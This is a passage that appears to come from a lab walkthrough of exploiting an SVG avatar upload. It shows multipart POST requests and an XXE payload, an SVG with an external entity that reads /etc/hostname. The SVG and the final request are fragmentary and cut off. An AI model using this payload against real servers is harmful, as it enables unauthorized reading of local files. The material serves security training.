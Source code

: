 ```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="100%" height="100%" viewBox="0 0 300 300">

  <title>SVG Logo</title>
  <desc>Designed for the SVG Logo Contest in 2006 by Harvey Rayner, and adopted by W3C in 2009. It is available under the Creative Commons license for those who have an SVG product or who are using SVG on their site.</desc>
..
.. 
       </cc:License>
     </rdf:RDF>
   </metadata>
   

   <defs>
     <g id="SVG" fill="#ffffff" transform="scale(2) translate(20,79)">
        <path id="S" d="M 5.482,31.319 C2.163,28.001 0.109,23.419 0.109,18.358 C0.109,8.792,25.952 L91.792,25.952 Z"/>
      </g>
   </defs>

   <path id="base" fill="#000" d="M8.5,150 H291.5 V250 C291.5,273.5 273.5,291.5 250,291.5 

</svg>
-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="email"

clean@token.com
-----------------------------346346600632902503642525096863
Content-Disposition: form-data; name="website"


-----------------------------346346600632902503642525096863--
```

2. change the whole SVG file data with an XXE attack:
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
**final request**:
```
POST /post/comment HTTP/1.1


-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="csrf"

dsoHHprllZwQdUYsVfNttIiI0BAcKeNY
-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="postId"

4
-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="comment"

attack
-----------------------------236802198913264706471563530208
Content-Disposition: form-data; name="name"

```
